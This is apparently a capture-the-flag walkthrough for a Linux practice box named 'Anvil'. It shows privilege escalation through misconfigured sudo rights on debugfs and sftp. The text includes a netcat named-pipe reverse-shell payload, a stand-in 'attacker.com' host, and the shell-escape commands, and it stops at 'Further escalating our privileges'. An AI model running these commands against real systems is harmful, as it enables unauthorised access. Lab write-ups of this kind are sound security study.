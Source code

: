 # Box: Anvil
# Level: Intermediate
# OS: Linux
<hr>

Lets get started

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/540b796a-a533-4954-b271-825e14715886)

Lets connect to the machine

command:```nc -t 10.0.40.10 1337```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/008fc3e5-46c3-407c-a88a-fab135dd2dd6)

cool we are connected to the target.

Running the ```sudo -l``` command

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/469b4ce8-49a3-4b94-a37a-ad2f885d9ee3)

We can see that user ```silver``` can run the binary ```debugfs``` with sudo privileges. This is what we call ```Misconfigured SUDO Privileges```

Checking [GTFOBins](https://gtfobins.github.io/gtfobins/debugfs/), I found this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/4684de10-2019-44b0-bf11-e2b06239fde6)

So, to escalate our privileges

command:```sudo -u silver /sbin/debugfs```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/326117dd-f7bb-4267-ba24-46c0a73b547d)

Good, now run this ```!/bin/sh```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/ef7d5dd7-87e3-4a51-8449-3450d840922d)

Nice, we were able to successfully escalate our privileges to user ```silver```

Now, lets further escalate our privileges

Running the ```sudo -l``` command again,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/d6b10ccb-e766-4617-a4cf-8658b06314b4)

So, user ```gold``` has ```sudo``` permissions to run the binary ```sftp```

Checking [GTFOBins](https://gtfobins.github.io/gtfobins/sftp/#sudo), I found this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/40fe3caa-f578-40b8-a5c0-1cdf7e06ce11)

So we can try to do something like this

command:```HOME=blackanon@attacker.com```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/a7801fbd-eacc-4043-95f2-1fd60c4bec33)

cool, now run this ```sudo -u gold /usr/bin/sftp $HOST```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/8619f907-f430-4fae-a9d2-130d8e6658f4)

oops, we can see that it's ssh running here. So, I decided to trigger the ```help``` menu

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/48337434-ae85-4d2e-b3e1-eb8804b196d1)

We can use that switch to run a program, this means we can try to execute a reverse shell

Payload
```sh
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc LHOST LPORT >/tmp/f
```

Save this in a ```.sh``` file and send it over to the target

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/b8f56e07-b469-470f-aad8-5ff784b69f10)

Cool, now lets execute that command again, but this time ensure you have your netcat listener set up

command
```
chmod +x bash.sh
HOST=blackanon@attacker.com
sudo -u gold /usr/bin/sftp -S /tmp/bash.sh $HOST
```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/6ccb23a8-197d-4424-9d63-c7550b1b0765)

It worked, we got a shell as user ```gold```.

Further escalating our privileges













